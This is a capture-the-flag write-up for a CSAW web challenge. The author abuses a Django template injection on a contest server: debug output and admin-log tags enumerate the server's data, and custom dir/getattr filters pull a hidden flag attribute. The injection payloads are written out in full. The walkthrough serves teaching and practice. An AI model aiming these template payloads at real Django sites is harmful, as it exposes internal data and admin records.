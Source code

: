 # Shia Labeouf-off!

One of my teammates mentioned that it was a template injection, so I focused on the ad-lib page.

**http://web.chal.csaw.io:5490/ad-lib/**

So first thing to do was look at what templates we could use, using the [Django Documentation for Built in Template and Filter Tags](https://docs.djangoproject.com/en/1.11/ref/templates/builtins/)

Unfortunately, the only useful ones were
```
	{% debug %}
	{% load somelibrary %}
	{% load sometag from somelibrary %}
```
We can clean up the debug ouput adding a force_escape filter and pre tags:
```
	<pre>{% filter force_escape %} {% debug %} {% endfilter %}</pre>
```
Which gives us the following:
```
	{'block': <Block Node: content. Contents: [<TextNode: u'\n<pre>'>, <django.template.defaulttags.FilterNode object at 0x7f135efbb3d0>, <TextNode: u'</pre>\n'>]>}{'block': <Block Node: body. Contents: [<TextNode: u'\n<div class="container">\n'>, <Block Node: content. Contents: [<TextNode: u'\n            <h1>Example '>]>, <TextNode: u'\n\n        </div>\n    </di'>]>}{}{'DEFAULT_MESSAGE_LEVELS': {'DEBUG': 10,
								'ERROR': 40,
								'INFO': 20,
								'SUCCESS': 25,
								'WARNING': 30},
	 u'csrf_token': <SimpleLazyObject: <function _get_val at 0x7f135ef32d70>>,
	 'messages': <django.contrib.messages.storage.fallback.FallbackStorage object at 0x7f135efbb7d0>,
	 'perms': <django.contrib.auth.context_processors.PermWrapper object at 0x7f135ef61350>,
	 u'request': <WSGIRequest: POST '/ad-lib/'>,
	 'user': <SimpleLazyObject: <function <lambda> at 0x7f135ef32de8>>}{'adjective': '<img src="https://media1.giphy.com/media/TxXhUgEUWWL6/200.webp#129-grid1" />',
	 'mrpoopy': <ad-lib.someclass.Woohoo instance at 0x7f135f1136c8>,
	 'noun': '<img src="https://media0.giphy.com/media/arNexgslLkqVq/200.webp#70-grid1" />',
	 'verb': '<img src="https://media3.giphy.com/media/R0vQH2T9T4zza/200.webp#165-grid1" />'}{'False': False, 'None': None, 'True': True}
```
Note: While debug gives us both the current context and the imported modules, I excluded the module section because it's very long.

While looking at the debug output, out of the very long list of modules, I noticed that template tags were being imported, and decided to try importing some of these.

While attempting to load adlib_extras, I accidentally misspelled it and received an error page:
```
	TemplateSyntaxError at /ad-lib/
	'adlib_extra' is not a registered tag library. Must be one of:
	adlib_extras
	admin_list
	admin_modify
	admin_static
	admin_urls
	cache
	i18n
	l10n
	log
	pools_extras
	static
	staticfiles
	tz
```
Huh, maybe I can enumerate tags in a library using the version of load that loads a specific tag?
```
	TemplateSyntaxError at /ad-lib/
	'test' is not a valid tag or filter in tag library 'pools_extras'
```
I verified it's not possible to do by examining the Django source code. Oddly enough, they choose to enumerate the tag libraries available, but not the tags in the individual libraries.

However, it dawned on me that while Django's documentation does list the normal built in template tags, the documentation does not list some of the ones I expected to see, and realized that the documentation did not list ones imported from modules, so I started combing the source for more template tags.

After looking through the source, I found what I was looking for, the template tags for the admin module:

[https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py](https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py)

I was then able to write my own crude implementation of the Django admin log.
```
	{% load log %}
	{% get_admin_log 1000 as admin_log %}
	<ul>
	{% for gLog in admin_log %}
	<li>{{gLog.user}} {{gLog.content_type}} {{gLog.object_id}} {{gLog.object_repr}} {{gLog.action_flag}} {{gLog.change_message}} {{gLog.action_time}}</li>
	{% endfor %}
	</ul>
```
Which gives us this:
```
	admin poll 3 asdf 1 [{"added": {}}] Sept. 13, 2017, 8:08 p.m.
	admin poll 1 Which one would you take into battle? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
	admin poll 2 Who is the most Shia of them all? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
	admin choice 8 https://media0.giphy.com/media/SPWzxnP0ga2t2/200w.webp#124-grid3 1 Sept. 13, 2017, 2:54 a.m.
	admin choice 7 https://media0.giphy.com/media/l2JdV73x6Ifdub8ly/200.webp#93-grid3 1 Sept. 13, 2017, 2:54 a.m.
	admin choice 6 https://media2.giphy.com/media/Oh4URwX1apHws/200.webp#66-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 5 https://media3.giphy.com/media/KCd6BFerCh3TG/200.webp#58-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 4 https://media2.giphy.com/media/MVCqaCH3Dzt3q/200.webp#52-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 3 https://media0.giphy.com/media/xT5LMvK0kjdURtXa48/200.webp#38-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 No fields changed. Sept. 13, 2017, 2:50 a.m.
	admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
	admin choice 2 https://media2.giphy.com/media/3oz8xFfwgt4ncWYtva/200.webp#17-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
	admin choice 2 https://media3.giphy.com/media/l2Je4rm0DCduJ6QJG/200.webp#16-grid3 1 Sept. 13, 2017, 2:50 a.m.
	admin choice 1 https://media2.giphy.com/media/3o7TKP9ln2Dr6ze6f6/giphy.gif 1 Sept. 13, 2017, 2:49 a.m.
	admin choice 1 Green 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 2 Blue 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 3 Red 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 4 Yellow 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 5 Black 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 6 Orange 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 7 Other 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 8 Paul 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 9 John 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 10 RIngo 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 11 George 3 Sept. 13, 2017, 2:47 a.m.
	admin poll 1 What is your favorite color 2 Changed question. Aug. 16, 2013, 1:08 p.m.
	admin poll 2 Favorite Beatle 2 Changed question. Aug. 16, 2013, 1:08 p.m.
	admin poll 2 Favorite Beatle? 1 Aug. 16, 2013, 1:08 p.m.
	admin poll 1 What is your favorite color? 1 Aug. 16, 2013, 11:22 a.m.
```
Unfortunately, the flag was not in here, but upon looking at the log, I noticed that there was a third poll, even though there were only 2 polls on the poll page. That seemed odd, so I decided to check it out.

**http://web.chal.csaw.io:5490/polls/3/**

Visiting this 3rd poll gives us an exception, but in the traceback, I noticed that the traceback gives us some of the code in **./polls/templatetags/pools_extras.py**, which you'll recognize from the earlier debug output.
```
	@register.filter(name='getme')
	def getme(value, arg):
	  return getattr(value, arg)
	@register.filter(name='checknum')
	def checknum(value):
	  check(value) 
	@register.filter(name='listme')
	def listme(value):
	  return dir(value)
	def check(value):
	  if value > 2:
		raise Exception("Our infrastructure can't support that many Shias!")
```
Having spent the last couple hours learning Django template tags and filters, I recognized these as Django template filter definitions, exposing some python functions, **dir** and **getattr**.

It became pretty clear that I was to use these to get the flag, but from where? Going to back to the debug context output, **mrpoopy** stands out as exposing a class.
```
	{{mrpoopy | listme}}
```
Which shows us the the attributes of mrpoopy:
```	
	['Woohoo', '__doc__', '__flag__', '__module__']
```	
Now we know where the flag is, let's get it:
```
	{{mrpoopy | getme:"__flag__" }}
```	
Which gives us the flag:
```
	flag{wow_much_t3mplate}
```